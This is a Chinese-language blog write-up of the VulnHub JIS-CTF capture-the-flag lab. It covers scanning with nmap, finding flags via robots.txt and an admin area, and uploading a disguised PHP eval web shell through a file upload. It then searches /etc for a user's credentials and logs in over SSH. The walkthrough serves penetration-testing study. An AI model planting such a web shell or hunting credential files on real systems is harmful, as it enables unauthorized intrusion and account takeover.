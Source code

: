 ```yaml
---
layout: post
title: JIS-CTF
subtitle: JIS-CTF
date: 2025-07-07 16:25
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

## 环境搭建

[Vuluhub靶场IP问题 - Kyon-H Blog](https://blog.kyon.xin/2025/07/01/Vuluhub%E9%9D%B6%E5%9C%BAIP%E9%97%AE%E9%A2%98/)

## 信息搜集

![Pasted%20image%2020250707170751.png](https://img.ghostliner.top/wqFpa0.png)

**发现主机：192.168.163.133**

```shell
nmap -T4 -A -p- 192.168.163.133
```

![Pasted%20image%2020250707170908.png](https://img.ghostliner.top/UVd7lU.png)

扫描站点发现`robots.txt`
![Pasted%20image%2020250707171104.png](https://img.ghostliner.top/G72JfN.png)

## 渗透测试

访问flag目录获取到flag1
![Pasted%20image%2020250707171227.png](https://img.ghostliner.top/ntcdCN.png)

访问admin_area，获取到flag2和admin密码
![Pasted%20image%2020250707180402.png](https://img.ghostliner.top/ii5xyJ.png)

登录成功，发现文件上传，尝试上传木马
![image.png](https://img.ghostliner.top/s1I617.png)

```php
GIF89a
<?php eval($_POST['code']);?>
```

上传成功，访问`/uploaded_files/shell.php`成功，蚁剑连接。
发现flag.txt为空，发现hint.txt，获取到flag3

![image.png](https://img.ghostliner.top/X0AV5L.png)

根据提示，发现flag.txt所属用户 `technawi`

![image.png](https://img.ghostliner.top/GJ4LGS.png)

找到该用户家目录，未发现

![image.png](https://img.ghostliner.top/qX3FEC.png)

```shell
find / -type f -name "*technawi*" 2>/dev/null # 未发现
grep -r technawi /etc/* 2>/dev/null
```

![image.png](https://img.ghostliner.top/mYqrAr.png)

查看 `/etc/mysql/conf.d/credentials.txt`, `technawi`, `3vilH@ksor`

![image.png](https://img.ghostliner.top/MV0Zgb.png)

ssh登录，查看 `flag.txt`

![image.png](https://img.ghostliner.top/bkUWqU.png)
